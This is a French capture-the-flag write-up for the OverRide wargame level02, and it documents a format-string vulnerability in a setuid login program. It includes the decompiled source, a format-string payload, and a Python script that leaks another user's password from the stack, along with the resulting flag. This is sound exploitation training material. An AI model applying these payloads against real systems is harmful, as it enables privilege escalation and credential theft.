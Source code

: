 # OverRide : [level02]

### Observation :
En arrivant sur le level02 on trouve un exécutable nommé level02.\
Quand nous essayons de le lancer cela nous demande un nom d'utilisateur puis un mot de passe. \
Regardons donc avec gdb ou un decompilateur.

---

#### Source décompilée:
```c
//----- (0000000000400814) ----------------------------------------------------
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char s2[96]; // [rsp+10h] [rbp-110h] BYREF
  int v5; // [rsp+70h] [rbp-B0h]
  char ptr[48]; // [rsp+80h] [rbp-A0h] BYREF
  char s[96]; // [rsp+B0h] [rbp-70h] BYREF
  int v8; // [rsp+110h] [rbp-10h]
  int v9; // [rsp+114h] [rbp-Ch]
  FILE *stream; // [rsp+118h] [rbp-8h]

  memset(s, 0, sizeof(s));
  v8 = 0;
  memset(ptr, 0, 41);
  memset(s2, 0, sizeof(s2));
  v5 = 0;
  stream = 0LL;
  v9 = 0;
  stream = fopen("/home/users/level03/.pass", "r");
  if ( !stream )
  {
    fwrite("ERROR: failed to open password file\n", 1uLL, 0x24uLL, stderr);
    exit(1);
  }
  v9 = fread(ptr, 1uLL, 0x29uLL, stream);
  ptr[strcspn(ptr, "\n")] = 0;
  if ( v9 != 41 )
  {
    fwrite("ERROR: failed to read password file\n", 1uLL, 0x24uLL, stderr);
    fwrite("ERROR: failed to read password file\n", 1uLL, 0x24uLL, stderr);
    exit(1);
  }
  fclose(stream);
  puts("===== [ Secure Access System v1.0 ] =====");
  puts("/***************************************\\");
  puts("| You must login to access this system. |");
  puts("\\**************************************/");
  printf("--[ Username: ");
  fgets(s, 100, stdin);
  s[strcspn(s, "\n")] = 0;
  printf("--[ Password: ");
  fgets(s2, 100, stdin);
  s2[strcspn(s2, "\n")] = 0;
  puts("*****************************************");
  if ( strncmp(ptr, s2, 0x29uLL) )
  {
    printf(s);
    puts(" does not have access!");
    exit(1);
  }
  printf("Greetings, %s!\n", s);
  system("/bin/sh");
  return 0;
}
```

#### Détails du programme:
```bash
-rwsr-s---+ 1 level03 users   9452 Sep 10  2016 level02
```

#### Fonctions:

| Nom | Description |
| --- | ----------- |
| `<main>` | Notre Programme, en 64bits, commence par ouvrir le fichier `/home/users/level03/.pass` et copie le contenu dans un string `ptr`, le programme nous demande par la suite notre nom d'utilisateur depuis `stdin` et le place dans la variable `<s>` (ce nom d'utilisateur sera printf plus tard). Il nous demande maintenant un mot de passe en `stdin` qu'il va ensuite comparer au `password` de `level03`. Dans le cas ou nous avons le bon mot de passe cela nous ouvre un `shell` en temps que `level03` sinon ca nous print `"does not have access!"`|


#### Conclusions:
Nous savons que notre mot de passe est stoquer, dans la stack, dans la variable `<ptr>`. \
Nous savons que nous pouvons remonter dans la stack grace à notre stdin de user qui est lu betement par printf.
```c
Effectivement printf utiliser de cette maniere: "printf(s)" (sans argument) permet d'injecter des points d'injections (%s / %c / %n / ex..) qui nous permettent de remonter dans la stack.
```


----
Résolution:
----
Nous devons trouver ou dans la stack ou est stocker `<ptr>` et lire son contenu. \
Nous devons ensuite remonter de printf en faisant des points d'injections jusqu'a tomber sur `<ptr>` puis afficher chaque groupe de 8octets (nous sommes en 64bits) avec printf `%lx`. \
Ensuite nous devons transformer chaque octets en caractere, cela nous donne ca:

>ptr brut (%lx * 5): "756e50523437684845414a3561733951377a7143574e6758354a35686e47587348336750664b394d"

>ptr décoder: "M9KfPg3HsXGnh5J5XgNWCqz7Q9sa5JAEHh74RPnu"

Malheureusement si on le test en mot de passe cela ne fonctionne pas...

La cause ? nous sommes en little endian, il faudra donc retourner nos blocs de 8 octets un par un...

En commande python cela donne quelque chose comme ca:

> 756e505234376848 | 45414a3561733951 | 377a7143574e6758 | 354a35686e475873 | 48336750664b394d

```sh
python -c "print('\x75\x6e\x50\x52\x34\x37\x68\x48'[::-1] + '\x45\x41\x4a\x35\x61\x73\x39\x51'[::-1] + '\x37\x7a\x71\x43\x57\x4e\x67\x58'[::-1] + '\x35\x4a\x35\x68\x6e\x47\x58\x73'[::-1] + '\x48\x33\x67\x50\x66\x4b\x39\x4d'[::-1])"
```



#### Injection:
Mais ici on fait dev, on fait pas les choses a la mains donc on a fait directement un programme python qui fait absolument tout ce que j'ai dit precedement: 
```python
import binascii
import os

def divide(l, n):
    return [l[i:i+n] for i in range(0, len(l), n)]

stream = os.popen('echo ' + '%c'*21 + '%8.lx'*5 + ' | /home/users/level02/level02')
for i in range(6):
        output = stream.readline()
input_string = output[21:101:]
parts = divide(input_string, 16)
stringrev = ''.join(''.join(divide(part, 2)[::-1]) for part in parts)
print(binascii.unhexlify(stringrev).decode('utf-8'))
```
- Il pipe avant le programe avec `echo ' + '%c'*21 + '%8.lx'*5`
- Il lance le programe et recupere la derniere chaine de caracteres
- Il trouve les chiffres qui nous interressent 
- Il les met par blocs de 8 et les inversent
- Enfin il nous renvoient nous affiche notre mot de passe traduit en ASCII

#### Commande:
```bash
python -c "print('\x75\x6e\x50\x52\x34\x37\x68\x48'[::-1] + '\x45\x41\x4a\x35\x61\x73\x39\x51'[::-1] + '\x37\x7a\x71\x43\x57\x4e\x67\x58'[::-1] + '\x35\x4a\x35\x68\x6e\x47\x58\x73'[::-1] + '\x48\x33\x67\x50\x66\x4b\x39\x4d'[::-1])"

----------------------------------------------------------------------------

python -c"
import binascii
import os

def divide(l, n):
    return [l[i:i+n] for i in range(0, len(l), n)]

stream = os.popen('echo ' + '%c'*21 + '%8.lx'*5 + ' | /home/users/level02/level02')
for i in range(6):
        output = stream.readline()
input_string = output[21:101:]
parts = divide(input_string, 16)
stringrev = ''.join(''.join(divide(part, 2)[::-1]) for part in parts)
print(binascii.unhexlify(stringrev).decode('utf-8'))"
```

**Flag :** Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
